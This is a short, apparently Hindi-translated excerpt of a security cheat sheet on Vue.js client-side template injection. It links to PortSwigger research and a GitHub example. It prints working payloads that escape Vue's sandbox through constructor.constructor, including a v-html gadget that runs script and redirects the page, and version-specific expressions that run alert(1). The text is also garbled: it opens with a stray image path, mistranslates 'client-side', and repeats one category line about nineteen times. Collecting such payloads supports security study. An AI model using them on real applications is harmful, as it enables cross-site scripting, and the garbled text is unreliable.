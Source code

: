 और यहां विकल्पता का **स्रोत कोड** है: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)
```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```
व्यू में CSTI पर एक वाकई अच्छा पोस्ट [https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets) में मिल सकता है।

## **V3**
```
{{_openBlock.constructor('alert(1)')()}}
```
श्रेय: [गैरेथ हेयस, लुइस आर्डर्न और पूनफंक्शन](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

## **V2**
```
{{constructor.constructor('alert(1)')()}}
```
श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)

श्रेणी: ग्राहक-साइड टेम्पलेट इंजेक्शन (Client-Side Template Injection)
